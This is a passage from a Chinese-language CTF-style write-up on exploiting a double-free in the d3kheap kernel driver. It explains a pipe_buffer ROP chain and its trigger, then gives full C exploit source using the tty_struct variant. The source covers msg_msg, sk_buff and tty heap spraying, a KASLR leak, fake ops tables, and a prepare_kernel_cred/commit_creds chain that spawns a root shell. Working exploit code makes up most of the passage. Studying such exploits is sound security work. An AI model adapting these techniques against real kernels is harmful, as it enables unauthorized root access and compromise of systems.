内存状态转换是这个阶段的核心成果。初始状态是`sk_buff`与`msg_msg`重叠，通过这个阶段的操作，转换为`pipe_buffer`与`sk_buff`重叠。在新的状态下，`pipe_buffer`结构在上层，`sk_buff`结构在下层。这意味着通过控制`sk_buff`的数据，可以间接修改`pipe_buffer`结构，特别是`pipe_buffer->ops`指针。这种控制层次的变化为最终的代码执行创造了条件。

### 3-10. 阶段9：ROP链构建与布局

**阶段目标**：构建完整的ROP链，通过`sk_buff`控制`pipe_buffer`结构，设置控制流劫持所需的所有组件。精心选择gadget实现权限提升和用户空间返回，准备最终的payload部署。

```c
void phase_9_build_rop_chain(void) {
  log.info("PHASE 9: ROP CHAIN CONSTRUCTION & CONTROL FLOW HIJACK");

  // 构造伪造的pipe_buffer结构
  fake_pipe_buffer = (size_t *)fake_msg;
  fake_pipe_buffer[0] = kernel_offset + ADD_RSP_0X50_RET;  // page字段
  fake_pipe_buffer[2] = nearby_msg_msg_addr + 0x40;        // ops字段

  // 构建ROP链
  rop_chain = (size_t *)&fake_msg[0x39];
  rop_chain[0] = kernel_offset + POP_RSP_RET;

  rop_chain = (uint64_t *)&fake_msg[0x50];
  rop_idx = 0;
  rop_chain[rop_idx++] = kernel_offset + POP_RDI_RET;
  rop_chain[rop_idx++] = 0;
  rop_chain[rop_idx++] = kernel_offset + PREPARE_KERNEL_CRED;
  rop_chain[rop_idx++] = kernel_offset + POP_RCX_RET;
  rop_chain[rop_idx++] = 0;
  rop_chain[rop_idx++] = kernel_offset + MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET;
  rop_chain[rop_idx++] = kernel_offset + COMMIT_CREDS;
  rop_chain[rop_idx++] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x22;
  rop_chain[rop_idx++] = (size_t)get_root_shell;
  rop_chain[rop_idx++] = user_cs;
  rop_chain[rop_idx++] = user_rflags;
  rop_chain[rop_idx++] = user_sp + 8;
  rop_chain[rop_idx++] = user_ss;

  // 最终sk_buff堆喷部署payload
  spray_sk_buff(sock_fds, fake_msg, sizeof(fake_msg));
}
```

伪造`pipe_buffer`结构的构造是这个阶段的起点。在`fake_msg`缓冲区的开头构造一个伪造的`pipe_buffer`结构，其中第一个字段（`page`）设置为栈迁移gadget`ADD_RSP_0X50_RET`的地址，第三个字段（`ops`）设置为之前泄露的伪造函数表地址`nearby_msg_msg_addr + 0x40`。这个结构有几个关键特性：`page`字段通常指向管理的内存页面，但这里被复用为第一个gadget；`ops`字段指向可控的函数表，其中`release`指针指向栈迁移gadget`PUSH_RSI_JMP_QWORD_PTR_RSI_PLUS_0X39`。当管道关闭调用`release`时，控制流将经过两次跳转最终到达ROP链。

栈迁移gadget的布局是控制流劫持的关键。第一个gadget`PUSH_RSI_JMP_QWORD_PTR_RSI_PLUS_0X39`执行时，RSI寄存器包含`pipe_buffer`结构的地址（这是x86_64调用约定的一部分）。这个gadget将RSI压栈保存，然后跳转到`[RSI+0x39]`处的地址。在`fake_msg[0x39]`处放置了第二个gadget`POP_RSP_RET`的地址。执行这个gadget会将栈指针设置为`fake_msg[0x50]`处的值，也就是ROP链的起始地址。通过这两级跳转，栈指针被迁移到完全可控的内存区域，为ROP执行做好准备。

```
控制流劫持执行路径：
1. pipe_buffer->ops->release() 被调用
   ↓
2. 跳转到 PUSH_RSI_JMP_QWORD_PTR_RSI_PLUS_0X39
   执行: push rsi; jmp [rsi+0x39]
   ↓
3. 跳转到 POP_RSP_RET (位于fake_msg[0x39])
   执行: pop rsp; ret
   RSP现在指向 fake_msg[0x50] (ROP链起点)
   ↓
4. 开始执行ROP链
   POP_RDI_RET; 0
   ↓
5. PREPARE_KERNEL_CRED(0)
   ↓
6. POP_RCX_RET; 0
   ↓
7. MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET
   ↓
8. COMMIT_CREDS()
   ↓
9. SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE+0x22
   ↓
10. 返回用户空间执行get_root_shell()
```

ROP链的设计体现了权限提升的经典模式。链中的第一个有效gadget是`POP_RDI_RET`，它将立即数0加载到RDI寄存器，作为`prepare_kernel_cred`函数的参数。在Linux内核中，`prepare_kernel_cred(0)`调用创建具有root权限的凭证结构。接下来调用`PREPARE_KERNEL_CRED`函数，其返回值（新凭证的指针）存储在RAX寄存器中。然后通过`POP_RCX_RET`清理RCX寄存器，再通过`MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET`将RAX的值移动到RDI寄存器。这个gadget通常用于内存复制，但这里利用它将凭证指针从RAX移动到RDI。最后调用`COMMIT_CREDS`函数，将新凭证应用到当前进程。

用户空间返回是ROP链的最后部分。调用`SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x22`返回用户空间。这个gadget执行多个操作：交换GS寄存器（从内核GS切换到用户GS）、恢复用户空间寄存器、执行`sysretq`或`iretq`返回。偏移+0x22跳过了一些不需要的操作。返回地址设置为`get_root_shell`函数的地址，这是用户空间的函数，将生成一个root shell。同时恢复阶段1保存的寄存器状态：`user_cs`、`user_rflags`、`user_sp+8`、`user_ss`。栈指针加8是为了跳过一些值，确保正确的栈对齐。

```
完整payload内存布局：
fake_msg缓冲区 (704字节)
+0x00: ADD_RSP_0X50_RET          (pipe_buffer.page)
+0x08: 0                         (保留)
+0x10: nearby_msg_msg_addr+0x40  (pipe_buffer.ops)
+0x18: ...                       (其他pipe_buffer字段)
+0x39: POP_RSP_RET              (栈迁移目标)
+0x40: 伪造的pipe_buf_operations结构
+0x50: ROP链开始
  [0]: 填充
  [1]: POP_RDI_RET
  [2]: 0
  [3]: PREPARE_KERNEL_CRED
  [4]: POP_RCX_RET
  [5]: 0
  [6]: MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET
  [7]: COMMIT_CREDS
  [8]: SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE+0x22
  [9]: get_root_shell地址
  [10]: user_cs
  [11]: user_rflags
  [12]: user_sp+8
  [13]: user_ss
```

内存布局的精确性至关重要。ROP链被放置在`fake_msg`缓冲区的特定偏移处：栈迁移目标在0x39，ROP链起始在0x50。这些偏移必须与gadget期望的值精确匹配。例如，`PUSH_RSI_JMP_QWORD_PTR_RSI_PLUS_0X39`期望在RSI+0x39处找到下一个gadget地址，因此必须在`fake_msg[0x39]`处放置正确的地址。同样，`POP_RSP_RET`期望栈顶包含新的栈指针值，因此在`fake_msg[0x50]`处放置ROP链地址。任何偏移错误都会导致控制流转到错误地址，很可能导致崩溃。

`sk_buff`的最终堆喷是payload部署的关键步骤。通过向所有套接字写入包含完整payload的`fake_msg`缓冲区，大量`sk_buff`结构被分配，其中一些将与目标`pipe_buffer`重叠。由于`sk_buff`与`pipe_buffer`共享内存，写入`sk_buff`的数据会修改`pipe_buffer`结构的内容。特别是会修改`pipe_buffer->ops`指针，使其指向伪造的函数表。成功部署后，当目标管道被关闭时，控制流将被劫持到精心构造的ROP链。

### 3-11. 阶段10：触发利用与权限获取

**阶段目标**：关闭所有管道文件描述符，触发`pipe_buffer->ops->release`函数执行，激活ROP链，获取root权限。验证利用成功并执行root shell，完成整个利用过程。

```c
void phase_10_trigger_exploit(void) {
  log.info("PHASE 10: TRIGGER EXPLOIT & GAIN ROOT PRIVILEGES");

  for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    close(pipe_fds[i][0]);
    close(pipe_fds[i][1]);
  }

  log.success("Exploit triggered! Check for root shell...");
}
```

管道关闭操作是触发机制的关键。在Linux内核中，当进程关闭管道文件描述符时，内核需要清理相关资源。如果管道中还有数据缓冲区（`pipe_buffer`），会调用其`release`操作。在正常系统中，`release`操作释放缓冲区占用的内存页面。但在被利用的系统中，`pipe_buffer->ops`指针已被修改为指向伪造的函数表，其中`release`指针指向栈迁移gadget`PUSH_RSI_JMP_QWORD_PTR_RSI_PLUS_0X39`。因此，关闭操作不会执行正常的释放逻辑，而是跳转到可控的代码路径。

控制流劫持的执行路径是精心设计的多级跳转。第一跳：当内核调用`pipe_buffer->ops->release()`时，控制流转到`PUSH_RSI_JMP_QWORD_PTR_RSI_PLUS_0X39`。此时RSI寄存器包含`pipe_buffer`结构的地址（根据x86_64调用约定）。这个gadget将RSI值压栈保存，然后从`[RSI+0x39]`加载目标地址并跳转。第二跳：在`fake_msg[0x39]`处存放着`POP_RSP_RET` gadget的地址，因此控制流转到这个gadget。`POP_RSP_RET`从栈顶弹出新的栈指针值，这个值是之前压栈的RSI值（`pipe_buffer`地址），但实际执行时，栈顶是保存的RSI值，所以RSP被设置为`pipe_buffer`地址。然后执行`RET`指令，从新的栈顶（`pipe_buffer`地址处）加载返回地址。第三跳：在`pipe_buffer`结构的开头（`page`字段）存放着`ADD_RSP_0X50_RET` gadget的地址，因此控制流转到这个gadget。这个gadget将栈指针增加0x50，然后返回，从新的栈位置加载下一个地址。第四跳：增加后的栈指针指向`fake_msg[0x50]`，这里存放着ROP链的第一个gadget地址`POP_RDI_RET`，控制流正式进入ROP链执行阶段。

```
完整触发和执行流程：
+---------------------+     +---------------------+     +---------------------+
| 关闭管道文件描述符  | --> | 调用release()操作   | --> | 跳转到栈迁移gadget  |
+---------------------+     +---------------------+     +---------------------+
         |                          |                          |
         v                          v                          v
+---------------------+     +---------------------+     +---------------------+
| 执行POP_RSP_RET     | --> | 执行ADD_RSP_0X50_RET| --> | 开始执行ROP链       |
+---------------------+     +---------------------+     +---------------------+
         |                          |                          |
         v                          v                          v
+---------------------+     +---------------------+     +---------------------+
| 调用prepare_        | --> | 调用commit_creds()  | --> | 返回用户空间        |
| kernel_cred(0)      |     | 提升权限            |     | 执行root shell      |
+---------------------+     +---------------------+     +---------------------+
```

### 3-12. 技术总结

本章详细分析了d3kheap驱动程序Double Free漏洞的完整利用过程，通过十个精心设计的阶段逐步建立内存控制、信息泄露、结构伪造和代码执行能力，最终实现权限提升。整个利用过程展示了现代内核漏洞利用的系统性方法论，从初始内存操作到最终代码执行形成完整的技术链，每个阶段都解决特定的技术挑战并建立后续阶段所需的能力基础，综合运用了堆布局控制、类型混淆利用、信息泄露技术、安全机制绕过、控制流劫持和权限提升等多种高级技术，在对抗KASLR、内存初始化保护、链表完整性检查等安全机制的环境下实现了可靠的权限提升，体现了内核漏洞利用领域的技术深度和工程严谨性。

## 4. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 5. 进阶分析：tty_struct结构利用

exploit核心代码如下：

```c
/* ===========================================================
 * KERNEL SYMBOL OFFSETS & GADGETS
 * =========================================================== */
#define PREPARE_KERNEL_CRED 0xffffffff810cee40    // prepare_kernel_cred function address
#define COMMIT_CREDS 0xffffffff810ce940           // commit_creds function address
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81e00ff0  // Return to user mode gadget
#ifdef SECONDARY_STARTUP_64
#undef SECONDARY_STARTUP_64
#endif
#define SECONDARY_STARTUP_64 0xffffffff81000040

/* ROP gadgets for control flow hijacking */
#define PUSH_RBX_POP_RSP_POP_RBP_RET 0xffffffff8113c459 // push rbx; sub eax, 0x415b0007; pop rsp; pop rbp; ret;
#define POP_RSP_RET 0xffffffff81034cf0           // pop rsp; ret
#define ADD_RSP_0X50_RET 0xffffffff81137a45      // add rsp, 0x50; ret
#define POP_RDI_RET 0xffffffff8108f9c0           // pop rdi; ret
#define POP_RCX_RET 0xffffffff81222333           // pop rcx; ret
#define MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET 0xffffffff81c3c9bb  // mov rdi, rax; rep movsq; ret

/* ===========================================================
 * HEAP SPRAY PARAMETERS
 * =========================================================== */
#define MSG_SIZE 0x400                  // Standard message size (1KB)
#define MSG_TYPE 0x41                   // Message type identifier
#define OOB_MSG_SIZE 0x1000             // Out-of-bounds read size (4KB)
#define TTY_SPRAY_COUNT 0xf0 * 2        // Maximum number of tty_struct to spray
#define MSG_QUEUE_NUM 0x1000            // Number of message queues (4096)

/* ===========================================================
 * DATA STRUCTURES
 * =========================================================== */
/* Standard message structure for IPC */
struct {
    long mtype;                           // Message type
    char mtext[MSG_SIZE - sizeof(struct msg_msg)];  // Message text buffer
} msg_data;

struct {
    long mtype;                           // Message type
    char mtext[OOB_MSG_SIZE - sizeof(struct msg_msgseg) + MSG_SIZE - sizeof(struct msg_msg)];  // Message text buffer
} oob_msg_data;

/* ===========================================================
 * GLOBAL STATE VARIABLES
 * =========================================================== */
int ptmx_fds[TTY_SPRAY_COUNT];          // tty file descriptors for heap spraying
int sock_fds[SOCKET_NUM][2];            // Socket pair file descriptors for sk_buff spraying
int msqid[MSG_QUEUE_NUM];               // Message queue identifiers for msg_msg spraying
size_t dev_fd;                          // File descriptor for vulnerable character device
size_t *leak_data;                      // Pointer to store leaked kernel data
int victim_qid = -1;                    // Queue ID containing the UAF victim object
int found_nearby_msg_msg = 0;           // Flag indicating nearby msg_msg found during OOB read
int nearby_qid = -1;                    // Queue ID of nearby message for exploitation
int nearby_offset_idx = -1;             // Offset index for nearby message in OOB read
size_t nearby_msg_msg_addr;             // Address of nearby msg_msg structure
size_t nearby_msg_queue_addr;           // Address of nearby message queue structure
size_t *fake_tty_struct = NULL;         // Pointer to fake tty_struct buffer
size_t *rop_chain = NULL;               // Pointer to ROP chain buffer
int rop_idx = 0;                        // Current index in ROP chain
char fake_msg[704] = {0};               // Fake message buffer for exploitation
size_t fake_msg_msgseg_addr;            // Address for fake msg_msgseg structure

/* ===========================================================
 * DEVICE INTERACTION COMMANDS
 * =========================================================== */
#define OBJ_ADD 0x1234                  // IOCTL command to allocate object
#define OBJ_EDIT 0x4321                 // IOCTL command to edit object
#define OBJ_SHOW 0xbeef                 // IOCTL command to show object
#define OBJ_DEL 0xdead                  // IOCTL command to delete/free object

/**
 * @brief Allocate a kernel object via ioctl
 */
void add_chunk(void) {
    ioctl(dev_fd, OBJ_ADD);
}

/**
 * @brief Free a kernel object via ioctl
 */
void delete_chunk(void) {
    ioctl(dev_fd, OBJ_DEL);
}

/* ===========================================================
 * HELPER FUNCTIONS
 * =========================================================== */

/**
 * @brief Create a tty_struct for heap spraying
 * @param tty_idx Index in ptmx_fds array
 */
void alloc_tty(int tty_idx) {
    ptmx_fds[tty_idx] = open("/dev/ptmx", O_RDWR | O_NOCTTY);
    if (ptmx_fds[tty_idx] < 0) {
        log.error("Failed to open /dev/ptmx");
        exit(-1);
    }
}

/* ===========================================================
 * EXPLOIT PHASE FUNCTIONS
 * =========================================================== */

/**
 * @brief Phase 1: Environment initialization and device setup
 * Sets up CPU affinity, saves user state, and opens vulnerable device
 */
void phase_1_init_environment(void) {
    log.info("===========================================================");
    log.info("PHASE 1: ENVIRONMENT INITIALIZATION & DEVICE SETUP         ");
    log.info("===========================================================");

    log.info("Initializing exploit environment");
    bind_core(0);                         // Pin to core 0 for consistent behavior
    save_status();                         // Save user-mode registers for later return

    log.info("Opening vulnerable character device /dev/d3kheap");
    dev_fd = open("/dev/d3kheap", O_RDONLY);
    if (dev_fd < 0) {
        log.error("Failed to open /dev/d3kheap!");
        exit(-1);
    }
    log.success("Device opened successfully, fd: %ld", dev_fd);
}

/**
 * @brief Phase 2: Socket pair preparation for heap spraying
 * Creates socket pairs for sk_buff heap spraying
 */
void phase_2_prepare_sockets(void) {
    log.info("===========================================================");
    log.info("PHASE 2: SOCKET PAIR PREPARATION FOR HEAP SPRAYING        ");
    log.info("===========================================================");

    log.info("Creating %d socket pairs for sk_buff spraying", SOCKET_NUM);
    for (int i = 0; i < SOCKET_NUM; i++) {
        if (socketpair(AF_UNIX, SOCK_STREAM, 0, sock_fds[i]) < 0) {
            log.error("Failed to create socket pair %d!", i);
            exit(-1);
        }
    }
    log.success("Successfully created %d socket pairs", SOCKET_NUM);
}

/**
 * @brief Phase 3: Message queue spraying and overlapping object setup
 * Creates message queues and sprays msg_msg objects to occupy freed memory
 */
void phase_3_spray_msg_queues(void) {
    log.info("===========================================================");
    log.info("PHASE 3: MESSAGE QUEUE SPRAYING & OVERLAPPING OBJECT SETUP");
    log.info("===========================================================");

    log.info("Creating %d message queues for heap grooming", MSG_QUEUE_NUM);
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        if ((msqid[i] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) < 0) {
            log.error("Failed to create msg_queue %d!", i);
            exit(-1);
        }
    }
    log.success("Successfully created %d message queues", MSG_QUEUE_NUM);

    log.info("Triggering allocation of target chunk via ioctl");
    add_chunk();                          // Allocate initial chunk
    log.info("Freeing target chunk to create dangling pointer");
    delete_chunk();                       // Free chunk to create UAF condition

    log.info("Spraying msg_msg objects (%d bytes each) to occupy freed chunk", MSG_SIZE);
    memset(&msg_data, 0, sizeof(msg_data));
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        *(size_t *)&msg_data.mtext[0] = MSG_TYPE;
        *(size_t *)&msg_data.mtext[8] = *(size_t *)"BinRacer";
        *(size_t *)&msg_data.mtext[16] = i;
        *(size_t *)&msg_data.mtext[24] = *(size_t *)"BinRacer";
        if (write_msg(msqid[i], &msg_data, sizeof(msg_data), MSG_TYPE) < 0) {
            log.error("Failed to send msg to queue %d!", i);
            exit(-1);
        }
    }
    log.success("Completed msg_msg spraying across all queues");
}

/**
 * @brief Phase 4: Trigger use-after-free vulnerability
 * Double-frees the target chunk and sprays tty_structs to reclaim it
 */
void phase_4_trigger_uaf(void) {
    log.info("===========================================================");
    log.info("PHASE 4: TRIGGER USE-AFTER-FREE VULNERABILITY             ");
    log.info("===========================================================");

    log.info("Double-freeing target chunk to create UAF condition");
    delete_chunk();                       // Second free creates UAF

    log.info("Spraying tty_structs to reclaim freed memory (%d tty_structs)", TTY_SPRAY_COUNT);
    for (int i = 0; i < TTY_SPRAY_COUNT; i++) {
        alloc_tty(i);
    }
    log.success("tty_structs spraying completed");
}

/**
 * @brief Phase 5: Identify victim object and leak kernel base
 * Scans message queues to find the one containing our UAF victim
 */
void phase_5_identify_victim(void) {
    log.info("===========================================================");
    log.info("PHASE 5: IDENTIFY VICTIM OBJECT & LEAK KERNEL BASE        ");
    log.info("===========================================================");

    log.info("Scanning message queues to locate UAF victim");
    victim_qid = -1;
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        int ret = peek_msg(msqid[i], &msg_data, sizeof(msg_data), 0);
        // Check if read size differs from expected (indicates tty_struct overlap)
        if (ret != (MSG_SIZE - sizeof(struct msg_msg))) {
            victim_qid = i;
            log.success("Victim queue ID: %d, unexpected read size: %d", victim_qid, ret);
            break;
        }
    }
    if (victim_qid == -1) {
        err_exit("Failed to locate UAF in message queues!");
    }
}

/**
 * @brief Phase 6: Out-of-bounds read to leak adjacent objects
 * Uses OOB read to discover nearby msg_msg structures and their queue addresses
 */
void phase_6_oob_read_leak(void) {
    log.info("===========================================================");
    log.info("PHASE 6: OUT-OF-BOUNDS READ TO LEAK ADJACENT OBJECTS      ");
    log.info("===========================================================");

    log.info("Closing all tty_structs to free memory for OOB read");
    for (int i = 0; i < TTY_SPRAY_COUNT; i++) {
        close(ptmx_fds[i]);
    }

    log.info("Constructing fake msg_msg for OOB read (size: %d bytes)", OOB_MSG_SIZE);
    build_msg((struct msg_msg *)fake_msg, 0, 0, MSG_TYPE,
              OOB_MSG_SIZE - sizeof(struct msg_msg), 0, 0);

    log.info("Spraying sk_buff objects to fill memory hole");
    if (spray_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
        log.error("Failed to spray sk_buff!");
        exit(-1);
    }
    log.success("sk_buff spraying completed");

    log.info("Performing OOB read to scan adjacent memory regions");
    peek_msg(msqid[victim_qid], &msg_data,
             OOB_MSG_SIZE - sizeof(struct msg_msg) + 0x8, 0);

    found_nearby_msg_msg = 0;
    for (int i = 1; i < 3; i++) {
        leak_data = (size_t *)&msg_data.mtext[0x400 * i - sizeof(struct msg_msg)];
        if (leak_data[2] == MSG_TYPE) {
            nearby_offset_idx = i;
            found_nearby_msg_msg = 1;
            break;
        }
    }

    if (!found_nearby_msg_msg) {
        log.error("Failed to locate nearby msg_msg!");
        exit(-1);
    }

    nearby_msg_queue_addr = leak_data[0] - 0xc0;
    nearby_qid = leak_data[8];
    hex_dump2("Nearby msg_msg data:", leak_data, 0x50);
    log.success("Nearby queue ID: %d", nearby_qid);
    log.success("Leaked nearby msg_queue address: 0x%lx", nearby_msg_queue_addr);
    log.success("Nearby nearby msg_msg->m_list.next: 0x%lx", leak_data[0]);
    log.success("Nearby nearby msg_msg->m_list.prev: 0x%lx", leak_data[1]);
}

/**
 * @brief Phase 7: Leak kernel base address
 * Uses OOB read to leak kernel symbols and calculate kernel base
 */
void phase_7_leak_kernel(void) {
    log.info("===========================================================");
    log.info("PHASE 7: LEAK KERNEL BASE ADDRESS                          ");
    log.info("===========================================================");

    log.info("Freeing sk_buff objects to prepare for new spray");
    if (free_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
        log.error("Failed to free sk_buff again!");
        exit(-1);
    }

    fake_msg_msgseg_addr = (nearby_msg_queue_addr & 0xfffffffff0000000) + 0x9d000 - 0x20;
    build_msg((struct msg_msg *)fake_msg,
              nearby_msg_queue_addr + 0xc0,
              nearby_msg_queue_addr + 0xc0,
              MSG_TYPE,
              OOB_MSG_SIZE - sizeof(struct msg_msgseg) + MSG_SIZE - sizeof(struct msg_msg),
              fake_msg_msgseg_addr, 0);

    log.info("Re-spraying sk_buff with extended fake msg_msg");
    if (spray_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
        log.error("Failed to re-spray sk_buff!");
        exit(-1);
    }

    log.info("Performing extended OOB read to leak kernel symbols");
    peek_msg(msqid[victim_qid], &oob_msg_data,
             OOB_MSG_SIZE - sizeof(struct msg_msgseg) + MSG_SIZE - sizeof(struct msg_msg) + 0x8, 0);
    leak_data = (size_t *)&oob_msg_data.mtext[OOB_MSG_SIZE - sizeof(struct msg_msg)];
    kernel_offset = leak_data[3] - SECONDARY_STARTUP_64;
    kernel_base += kernel_offset;
    hex_dump2("Leaked msg_data:", leak_data, 0x30);
    log.success("Leaked secondary_startup_64: 0x%lx", leak_data[3]);
    log.success("Kernel base address: 0x%lx", kernel_base);
    log.success("Kernel offset: 0x%lx", kernel_offset);
}

/**
 * @brief Phase 8: Fake tty_struct operations construction
 * Prepares fake tty_struct->ops in a nearby message queue
 */
void phase_8_build_fake_ops(void) {
    log.info("===========================================================");
    log.info("PHASE 8: FAKE TTY_STRUCT OPERATIONS CONSTRUCTION           ");
    log.info("===========================================================");

    log.info("Freeing sk_buff objects to clean memory");
    if (free_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
        log.error("Failed to free sk_buff again!");
        exit(-1);
    }

    log.info("Constructing fake msg_msg for OOB read (size: %d bytes)", OOB_MSG_SIZE);
    build_msg((struct msg_msg *)fake_msg, 0, 0, MSG_TYPE,
              OOB_MSG_SIZE - sizeof(struct msg_msg), 0, 0);

    log.info("Spraying sk_buff objects to fill memory hole");
    if (spray_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
        log.error("Failed to spray sk_buff!");
        exit(-1);
    }

    log.info("Preparing fake tty_struct->ops in nearby message queue");
    *(size_t *)&msg_data.mtext[0] = MSG_TYPE;
    // tty_struct->ops->ioctl = kernel_offset + PUSH_RBX_POP_RSP_POP_RBP_RET
    *(size_t *)&msg_data.mtext[0x60 - sizeof(struct msg_msg)] = kernel_offset + PUSH_RBX_POP_RSP_POP_RBP_RET;

    if (write_msg(msqid[nearby_qid], &msg_data, sizeof(msg_data), MSG_TYPE) < 0) {
        log.error("Failed to write fake ops to queue %d!", nearby_qid);
        exit(-1);
    }
    log.success("Fake ops written to queue %d", nearby_qid);

    log.info("Leaking address of fake ops msg_msg");
    peek_msg(msqid[victim_qid], &msg_data,
             OOB_MSG_SIZE - sizeof(struct msg_msg) + 0x8, 0);
    leak_data = (size_t *)&msg_data.mtext[0x400 * nearby_offset_idx - sizeof(struct msg_msg)];
    nearby_msg_msg_addr = leak_data[0];
    hex_dump2("Fake ops msg_msg data:", leak_data, 0x50);
    log.success("Leaked fake ops msg_msg address: 0x%lx", nearby_msg_msg_addr);

    log.info("Releasing sk_buff objects to free memory");
    if (free_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
        log.error("Failed to free sk_buff!");
        exit(-1);
    }
}

/**
 * @brief Phase 9: Bypass free checks with forged msg_msg
 * Constructs a forged msg_msg to bypass security checks during free operation
 */
void phase_9_bypass_free_checks(void) {
    log.info("===========================================================");
    log.info("PHASE 9: BYPASS FREE CHECKS WITH FORGED MSG_MSG           ");
    log.info("===========================================================");

    log.info("Constructing forged msg_msg to bypass free() validation");
    build_msg((struct msg_msg *)fake_msg, nearby_msg_queue_addr + 0xc0,
              nearby_msg_queue_addr + 0xc0, MSG_TYPE,
              MSG_SIZE - sizeof(struct msg_msg), 0, 0);

    log.info("Re-spraying sk_buff with forged msg_msg");
    if (spray_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
        log.error("Failed to re-spray sk_buff!");
        exit(-1);
    }
    log.success("Forged msg_msg sprayed successfully");

    log.info("Triggering free of forged msg_msg");
    read_msg(msqid[victim_qid], &msg_data, sizeof(msg_data), 0);

    log.info("Re-spraying tty_structs to reclaim memory");
    for (int i = 0; i < TTY_SPRAY_COUNT; i++) {
        alloc_tty(i);
    }
    log.success("tty_structs re-spray completed");

    log.info("Final cleanup of sk_buff objects");
    if (free_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
        log.error("Failed to free sk_buff again!");
        exit(-1);
    }
}

/**
 * @brief Phase 10: ROP chain construction and control flow hijack
 * Builds fake tty_struct and ROP chain for privilege escalation
 */
void phase_10_build_rop_chain(void) {
    log.info("===========================================================");
    log.info("PHASE 10: ROP CHAIN CONSTRUCTION & CONTROL FLOW HIJACK     ");
    log.info("===========================================================");

    log.info("Building fake tty_struct structure");
    fake_tty_struct = (size_t *)fake_msg;
    fake_tty_struct[0] = 0x0000000100005401;
    fake_tty_struct[1] = kernel_offset + ADD_RSP_0X50_RET;
    fake_tty_struct[2] = nearby_msg_msg_addr; // tty_struct->driver
    fake_tty_struct[3] = nearby_msg_msg_addr; // tty_struct->ops

    log.info("Constructing ROP chain for privilege escalation");
    rop_chain = (uint64_t *)&fake_msg[0x50];
    rop_idx = 0;
    rop_chain[rop_idx++] = *(uint64_t *)"BinRacer";           // Padding
    rop_chain[rop_idx++] = *(uint64_t *)"BinRacer";           // Padding
    rop_chain[rop_idx++] = kernel_offset + POP_RDI_RET;       // pop rdi gadget
    rop_chain[rop_idx++] = 0;                                 // NULL argument
    rop_chain[rop_idx++] = kernel_offset + PREPARE_KERNEL_CRED; // prepare_kernel_cred(0)
    rop_chain[rop_idx++] = kernel_offset + POP_RCX_RET;       // pop rcx gadget
    rop_chain[rop_idx++] = 0;                                 // 0 argument
    rop_chain[rop_idx++] = kernel_offset + MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET; // mov rdi, rax
    rop_chain[rop_idx++] = kernel_offset + COMMIT_CREDS;      // commit_creds()
    rop_chain[rop_idx++] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x22;
    rop_chain[rop_idx++] = *(uint64_t *)"BinRacer";           // Padding
    rop_chain[rop_idx++] = *(uint64_t *)"BinRacer";           // Padding
    rop_chain[rop_idx++] = (size_t)get_root_shell;            // Return to user shell
    rop_chain[rop_idx++] = user_cs;                           // User code segment
    rop_chain[rop_idx++] = user_rflags;                       // User flags
    rop_chain[rop_idx++] = user_sp + 8;                       // User stack pointer
    rop_chain[rop_idx++] = user_ss;                           // User stack segment

    log.success("ROP chain constructed with %d gadgets", rop_idx);

    log.info("Final sk_buff spray to hijack tty_struct->ops->ioctl");
    if (spray_sk_buff(sock_fds, fake_msg, sizeof(fake_msg)) < 0) {
        log.error("Final sk_buff spray failed!");
        exit(-1);
    }
    log.success("Payload deployed successfully");
}

/**
 * @brief Phase 11: Trigger exploit and gain root privileges
 * Call ioctl to trigger the exploit and spawn root shell
 */
void phase_11_trigger_exploit(void) {
    log.info("===========================================================");
    log.info("PHASE 11: TRIGGER EXPLOIT & GAIN ROOT PRIVILEGES           ");
    log.info("===========================================================");

    log.info("Call ioctl to trigger fake ops->release handler");
    for (int i = 0; i < TTY_SPRAY_COUNT; i++) {
        ioctl(ptmx_fds[i], 0xdeadbeaf, 0xdeadbeaf);
    }

    log.success("Exploit triggered! Check for root shell...");
}

/* ===========================================================
 * MAIN EXPLOIT ENTRY POINT
 * =========================================================== */
int main(int argc, char **argv, char **envp) {
    /* Execute exploit phases sequentially */
    phase_1_init_environment();
    phase_2_prepare_sockets();
    phase_3_spray_msg_queues();
    phase_4_trigger_uaf();
    phase_5_identify_victim();
    phase_6_oob_read_leak();
    phase_7_leak_kernel();
    phase_8_build_fake_ops();
    phase_9_bypass_free_checks();
    phase_10_build_rop_chain();
    phase_11_trigger_exploit();

    return 0;
}
```

### 5-1. 利用架构总览

本章深入分析基于`tty_struct`结构的进阶利用技术。`tty_struct`是Linux终端子系统的核心数据结构，与`pipe_buffer`结构同属于`kmalloc-1k`缓存，这为内存重用和结构重叠创造了理想条件。与管道缓冲区相比，`tty_struct`具有更复杂的操作函数表和更多的控制点，为漏洞利用提供了新的可能性。



整个利用过程包含11个精心设计的阶段，从环境准备开始，逐步建立内存控制、信息泄露、结构伪造和代码执行能力，最终实现权限提升。与之前利用`pipe_buffer`的方法相比，`tty_struct`利用具有几个显著优势：更复杂的结构体提供更多控制空间，丰富的函数指针提供更多触发点。

### 5-2. 阶段1：环境初始化与设备准备

